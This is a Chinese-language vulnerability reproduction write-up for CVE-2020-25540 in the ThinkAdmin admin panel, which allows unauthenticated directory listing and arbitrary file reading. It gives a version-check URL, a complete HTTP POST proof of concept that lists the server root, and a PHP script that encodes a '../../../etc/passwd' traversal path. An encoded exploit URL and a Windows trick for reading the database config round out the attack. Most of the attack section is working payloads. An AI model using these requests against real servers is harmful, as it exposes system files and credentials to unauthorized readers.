









# ThinkAdmin未授权列目录/任意文件读取(CVE-2020-25540)漏洞

### 0X00简介

> ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统,ThinkAdmin v6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

### 0X01影响范围

> Thinkadmin ≤ 2020.08.03.01   v5（任意文件读取）   v6（列目录,任意文件读取）

- 
- 

```
查看版本https://ip/admin/login.html?s=admin/api.Update/version
```


### 0X02漏洞复现

在`app/admin/controller/api/Update.php`中存在3个function，无需登录验证就能使用。

```
namespace
app\admin\controller\api;
use think\admin\Controller;
use think\admin\service\ModuleService;
use think\admin\service\SystemService;
```

#### 1.列目录漏洞

在node()方法中，直接将POST的rules和ignore参数传给了InstallService::instance()->getList()在vendor/zoujingli/think-library/src/service/InstallService.php中利用scanList()去遍历$rules数组继续跟进，在scanList()方法中调用scanDirectory()递归遍历目录下的文件，然后利用_getInfo()方法获取文件名和哈希值。在整个过程中并没有进行任何过滤和认证，由此攻击者可以利用此漏洞获取服务器目录列表。

利用poc


```
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```



#### 2.任意文件读取漏洞

在app/admin/controller/api/Update.php中存在get()方法，对GET中的encode参数使用decode()方法进行解码。上面正好有个encode()方法，攻击时可以直接调用。继续看ModuleService::instance()->checkAllowDownload()，禁止下载数据库配置文件，name参数不能为database.php。跟进getAllowDownloadRule()函数。发现允许了以下路径。


```
config
public/static
public/router.php
public/index.php
app/admin
app/wechat
```

可以通过控制$name参数，实现任意文件读取，且在Linux中无法读取database.php，而window中可以利用database"php来绕过。读取的文件路径需要编码。

编码脚本：


```
<?php
$name="../../../etc/passwd";
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```


```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```



参考链接：

https://github.com/zoujingli/ThinkAdmin/issues/244

